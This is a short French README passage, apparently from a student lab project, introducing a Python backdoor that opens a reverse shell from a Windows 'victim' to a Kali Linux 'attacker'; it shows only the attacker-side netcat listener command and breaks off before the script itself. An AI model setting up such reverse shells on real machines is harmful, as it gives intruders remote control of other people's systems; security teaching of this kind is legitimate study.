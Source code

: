 #  Sujet 3 – Backdoor (Reverse Shell)

Ce script Python permet d'établir une connexion reverse shell entre une machine Windows (victime) et Kali Linux (attaquant).

##  Utilisation

### Côté Kali (attaquant)
Démarrer l'écoute avec Netcat :

```bash
nc -nlvp 4444

